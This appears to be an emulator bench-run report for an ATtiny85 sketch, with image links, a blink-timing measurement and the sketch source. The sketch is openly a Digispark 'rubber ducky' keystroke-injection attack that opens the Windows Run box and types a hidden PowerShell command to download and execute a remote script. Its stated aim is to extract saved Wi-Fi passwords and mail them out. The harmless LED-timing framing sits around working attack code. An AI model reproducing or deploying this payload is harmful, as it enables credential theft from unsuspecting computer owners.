
Bench run of a sketch on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking.

Above: at 3.4 s.
Timing chart, 0 to 7.5 s (numbered marks = the images above):


Measured:
- by itself, PB1: alternates HIGH for 1.0 s and LOW for 1.0 s

The sketch:

wifi.ino
```cpp
// A Digispark rubber ducky script for Windows to Extract and Mail Wifi profiles (SSID, password) in plain text format.

#include "DigiKeyboard.h"

void setup()


{

	pinMode(1, OUTPUT);

	//-->Initial Delay
  DigiKeyboard.delay(2000);

   // --> Obfuscate the command prompt
  DigiKeyboard.sendKeyStroke(KEY_D, MOD_GUI_LEFT);
  DigiKeyboard.delay(300);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(300);

  DigiKeyboard.print(F("powershell -windowstyle hidden \"IEX (New-Object Net.WebClient).DownloadString('YOUR-DOWNLOAD-LINK-WIFI.PS1');\""));
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);


}

void loop() {


   digitalWrite(1, HIGH);
  delay(1000);               // wait for a second
  digitalWrite(1, LOW);
  delay(1000);
}
```
